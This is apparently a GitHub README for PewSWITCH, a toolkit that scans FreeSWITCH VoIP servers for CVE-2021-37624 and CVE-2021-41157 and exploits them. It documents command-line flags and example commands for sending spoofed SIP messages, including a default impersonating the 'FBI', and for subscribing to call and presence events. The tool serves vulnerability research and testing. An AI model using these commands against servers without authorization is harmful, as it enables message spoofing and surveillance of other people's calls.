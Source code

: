 # PewSWITCH
A FreeSWITCH specific scanning and exploitation toolkit for CVE-2021-37624 and CVE-2021-41157.

> Related blog: https://0xinfection.github.io/posts/analyzing-freeswitch-vulns/

## Usage
The help statement of the tool is as below:
```groovy
$ ./pewswitch --help

     ___    .        ____       _ __      __
    / _ \___|\    __/ __/|   __(_) /_____/ /
   / ___/ -_) |/|/ /\ \| |/|/ / / __/ __/ _ \
  /_/   \__/|__,__/___/|__,__/_/\__/\__/_//_/  v0.1

       "where we pew pew pew freeswitch"

Usage of ./pewswitch:
  -cve string
        Specify a specific CVE to scan. Both vulns are tested by default.
  -delay int
        Delay in seconds between subsequent requests. (default 0)
  -events string
        Comma-separated list of events to be subscribed to. All events are monitored by default.
  -expires int
        Maximum value of the 'Expires' header for SUBSCRIBE requests. (default 60)
  -ext-file string
        Specify a file containing extensions instead of '-exts'.
  -exts string
        Comma separated list of extensions to scan.
  -msg-file string
        Specify a CSV file containing messages to be sent (if found vulnerable to CVE-2021-37624).
  -out-dir string
        Output directory to write the results to. (default "./pewswitch-results/")
  -out-format string
        Output format type of the results. Can be either 'json' or 'csv'. (default "json")
  -threads int
        Number of threads to use while scanning. (default 2)
  -user-agent string
        Custom user-agent string to use. (default "pewswitch/0.1")
```

### Scanning for a specific vulnerability
By default the tool scans for both vulnerabilites. If you want to test for a specific vulnerability, you can use the `-cve` flag to test for a specific vulnerability.

Example:
```groovy
./pewswitch -cve 'cve-2021-37624' -exts 1000 freeserver.voip.com
```

### Specifying extensions
To specify extensions, you can choose either of the methods:
- Specify a comma separated list of extensions via the `-exts` argument.

    Example:
    ```powershell
    ./pewswitch -exts 1000,1001 freeserver.voip.com freeserver1.voip.com:5060
    ```
    This will make the tool to test for combinations of pairs for each extension with every host. So the end targets that will be tested in the above command are: `1000@freeserver.voip.com`, `1001@freeserver.voip.com`, `1000@freeserver1.voip.com:5060` and `1001@freeserver1.voip.com:5060`.

- Specify a file containing extensions. Note that when using a file, you need to specify both user and host. This is especially useful when you have to test specific extensions on specific servers. An example of such a file (e.g. [`extensions-sample.txt`](extensions-sample.txt)) could look like this:
    ```
    1000@freeserver.voip.com
    1001@freeserver1.voip.com:5060
    1002@freeserver01.voip.com:5660
    ...
    ```

    Example:
    ```groovy
    ./pewswitch -ext-file extensions-sample.txt
    ```

Note that if any port is not specified with the host, port 5060 will be used by default as the destination port.

### Output
The tool can output in 2 different formats, namely JSON and CSV. The default output format is JSON. Output format can be changed using the `-out-format` switch.

Example:
```groovy
./pewswitch -exts 1000 -out-format csv freeserver.voip.com 
```

You can find samples of reports in [`json`](pewswitch-results/sample-report.json) as well as [`csv`](pewswitch-results/sample-report.csv) format in the `./pewswitch-results/` directory.

The destination output directory can be changed using the `-out-dir` argument. By default the output directory is `./pewswitch-results/` which is created in the current working directory while running the tool.

Example:
```groovy
./pewswitch -ext-file extensions-sample.txt -out-dir /tmp
```

### Request Specific Settings
There are some additional packet specific settings in the tool that allows customization of requests during vulnerability validation/exploitation.

#### MESSAGE packets
If a server is found _vulnerable_ to CVE-2021-37624, by default a sample message from name `FBI` and number `022-324-3000` is sent to the target extension. The contents of the message looks like this: `FBI here. Open your door!`

This behaviour can be changed by making use of the `-msg-file` argument. This accepts a CSV file containing the name of the sender, the phone number and lastly the message contents to be sent. An example of such a file is [`messages-sample.csv`](messages-sample.csv).
```
sender_name,sender_phone,message
FBI,022-324-3000,FBI here. Open your door!
0xInfection,000-000-0000,Hi. Just confirming the vulnerability.
SPAMMY SALESMAN,BAD-GUY-9999,BUY MY STUFF!
```
Example:
```groovy
./pewswitch -cve 'cve-2021-27624' -msg-file messages-sample.csv -exts 1000 freeserver.voip.com 
```

#### SUBSCRIBE requests
By default, the tool sends SUBSCRIBE requests with a `Expires` header set at 60 seconds. It is for the same time-frame the tool will continue to listen for NOTIFY messages from the server. The value can be changed by making use of the `-expires` flag. 

Example:
```groovy
./pewswitch -expires 600 -ext-file extensions-sample.txt
```

The tool also monitors for NOTIFY messages by subscribing to *__all__* events. A list of all events is below:
- `talk`
- `hold`
- `conference`
- `as-feature-event`
- `dialog`
- `line-seize`
- `call-info`
- `sla`
- `include-session-description`
- `presence`
- `presence.winfo`
- `message-summary`
- `refer`

This behaviour can be changed by the `-events` flag which takes a comma separated list of events to monitor. Example:
```groovy
./pewswitch -cve 'cve-2021-41157' -events message-summary,presence -exts 1000,1002 freeserver.voip.com
```

### Setup
You can make use of the pre-built binaries from the [Releases](https://github.com/0xInfection/PewSWITCH/releases) section. Or, if you prefer to compile the code yourself, you'll need Go > 1.13. To build the tool, you can run `go build` which will give you a binary to run.

### Version and License
The tool is available under MIT License. Feel free to do whatever you want to do with it. :)

Currently, PewSWITCH is at v0.1.

### Bugs and features requests
New requests and features? Feel free to create an [issue](https://github.com/0xInfection/pewswitch/issues/new/) or a [pull request](https://github.com/0xInfection/pewswitch/pulls).

If you have anything to discuss you can reach out to me via twitter/email on my profile.

> Created with ♡ by [Pinaki](https://twitter.com/0xInfection).